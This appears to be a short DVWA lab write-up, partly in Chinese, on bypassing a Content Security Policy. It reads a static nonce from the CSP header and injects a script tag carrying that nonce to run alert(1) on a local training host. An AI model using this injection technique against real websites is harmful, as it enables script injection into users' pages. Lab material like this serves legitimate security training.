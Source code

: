 # Content Security Policy (CSP) Bypass

> Objective: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

### 觀察 CSP

```jsx
GET http://dvwa.localtest/vulnerabilities/csp/
```

這次有多一個 nonce

```jsx
Content-Security-Policy:
script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```
### Done
CSP 禁止 inline script，但如果要讓它執行只要在 script 上加上 `nonce` 屬性即可，value 就是 nonce 的值 (nonce- 之後的 value)

```jsx
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```
